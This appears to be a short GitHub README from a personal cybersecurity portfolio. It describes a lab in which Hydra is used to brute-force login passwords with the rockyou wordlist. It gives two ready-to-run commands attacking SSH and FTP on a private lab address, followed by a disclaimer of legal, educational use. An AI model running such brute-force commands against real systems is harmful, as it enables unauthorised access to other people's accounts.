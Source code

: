 # Hydra Password Cracking Lab

This repository documents my hands-on lab using *Hydra* to perform password cracking in a safe and controlled environment.  
It is part of my cybersecurity learning portfolio.

---

## Lab Overview
In this lab, I used Hydra to test password strength and demonstrate brute-force attacks on a target machine within a legal, controlled environment.

---

## Tools Used
- *Hydra (thc-hydra)*
- *Kali Linux*
- *Custom wordlists* (e.g., rockyou.txt)

---

## Commands Used
Below are examples of the commands I used during this lab:

```bash
# Example SSH brute-force attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<172.19.0.5>

# Example FTP brute-force attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<172.19.0.5>




## Disclaimer
All activities in this repository are performed in a *legal and controlled environment*.  
This project is for *educational purposes only.*
